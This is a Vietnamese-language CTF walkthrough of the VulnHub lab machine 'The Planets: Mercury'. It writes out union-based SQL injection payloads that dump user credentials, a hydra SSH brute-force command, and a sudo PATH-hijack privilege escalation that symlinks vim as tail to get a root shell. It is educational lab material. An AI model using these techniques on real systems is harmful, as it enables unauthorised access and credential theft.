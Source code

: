 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/){:target="\_blank"}

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database. Hơn thế nữa, dựa vào syntax error xác định được Union-based SQLi. Mở Burp và tiến hành khai thác.
<br>

## Exploitation

Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

```
/mercuryfacts/1 order by 2/
```

![exploit](/posts/mercury-walkthrough/exploit-2.PNG)

Lỗi khi `order by 2`, có thể suy ra chỉ tồn tại 1 record ở đây.
<br>
Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, có tham chiếu đến `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/posts/mercury-walkthrough/exploit-4.PNG)

Tìm thấy được 2 table, nhưng ta chỉ quan tâm `users`, tiếp tục tìm columns từ bảng `users`

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên đã được thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster` ha). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Từ đây, ta có thể tận dụng nó bằng cách symlink nó tới 1 chương trình có thể sinh ra shell (ví dụ như `vim`)

`vim` có thể thực thi shell command thông qua syntax `:!`, tiến hành symlink _vim_ qua _tail_ và đồng thời set PATH cho đường dẫn hiện tại:

```shell
ln -s /usr/bin/vim tail
```

```shell
export PATH=${pwd}:$PATH
```

![check_syslog.sh](/posts/mercury-walkthrough/symlink-to-vim.PNG)

Bước cuối cùng, công việc thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Lúc này `vim` được mở lên, điều chúng ta cần làm là type `:shell`

![spawn shell](/posts/mercury-walkthrough/shell.PNG)

Hit enter và root shell hiện ra:

![get root](/posts/mercury-walkthrough/get_root.PNG)

Flag:

![flag](/posts/mercury-walkthrough/flag.png)

